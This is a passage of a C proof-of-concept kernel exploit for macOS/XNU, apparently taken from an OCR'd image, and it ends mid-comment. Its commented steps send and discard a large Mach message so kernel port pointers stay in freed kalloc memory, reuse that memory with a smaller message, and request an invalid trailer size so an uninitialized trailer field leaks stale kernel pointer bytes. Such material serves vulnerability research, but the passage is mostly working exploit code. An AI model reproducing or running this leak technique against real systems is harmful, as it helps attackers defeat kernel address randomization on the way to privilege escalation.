```c
    /*
     * 5) Receive buffer for reading back messages with trailers.
     *    We'll request a *max-size* trailer via MACH_RCV_TRAILER_ELEMENTS(5).
     *    On vulnerable kernels, field `msgh_ad` (in mac trailer) may be left uninitialized
     *    if the requested elements value is < MACH_RCV_TRAILER_AV, causing stale bytes to leak.
     */
    uint8_t *buffer = malloc(big_size + MAX_TRAILER_SIZE);
    mach_msg_mac_trailer_t *trailer; // interpret the tail as a "mac trailer" (format 0 / 64-bit variant internally)
    uintptr_t sent_port_address = 0; // we'll build the 64-bit pointer from two 4-byte leaks

    /*
     * ---------- Exploitation sequence ----------
     *
     * Step A: Send the "big" message → allocate a kalloc.1024 ipc_kmsg that contains many
     *         kernel pointers (ipc_port*) in its descriptor array.
     */
    printf("[*] Sending message 1\n");
    mach_msg(&big_message->header,
             MACH_SEND_MSG,
             big_size,            // send size
             0,                   // no receive
             MACH_PORT_NULL,
             MACH_MSG_TIMEOUT_NONE,
             MACH_PORT_NULL);

    /*
     * Step B: Immediately receive/discard it with a zero-sized buffer.
     *         This frees the kalloc chunk without copying descriptors back,
     *         leaving the kernel pointers resident in freed memory (stale).
     */
    printf("[*] Discarding message 1\n");
    mach_msg((mach_msg_header_t *)0,
             MACH_RCV_MSG,        // try to receive
             0,                   // send size 0
             0,                   // recv size 0 (forces error/free path)
             port,
             MACH_MSG_TIMEOUT_NONE,
             MACH_PORT_NULL);

    /*
     * Step C: Reuse the same size-class with the "small" message (fewer descriptors).
     *         We slightly bump msgh_size by +4 so that when the kernel appends
     *         the trailer, the trailer's uninitialized field `msgh_ad` overlaps
     *         the low 4 bytes of a stale ipc_port* pointer from the prior message.
     */
    small_message->header.msgh_size = small_size + sizeof(uint32_t); // +4 to shift overlap window
    printf("[*] Sending message 2\n");
    mach_msg(&small_message->header,
             MACH_SEND_MSG,
             small_size + sizeof(uint32_t),
             0,
             MACH_PORT_NULL,
             MACH_MSG_TIMEOUT_NONE,
             MACH_PORT_NULL);

    /*
     * Step D: Receive message 2 and request an invalid trailer elements value (5).
     *         - Bits 24..27 (MACH_RCV_TRAILER_MASK) are nonzero → the kernel computes a trailer.
     *         - Elements=5 doesn't match any valid enum → REQUESTED_TRAILER_SIZE(...) falls back to max size.
     *         - BUT init of certain fields (like `ad`) is guarded by >= MACH_RCV_TRAILER_AV (7),
     *           so with 5, `msgh_ad` remains uninitialized → stale bytes leak.
```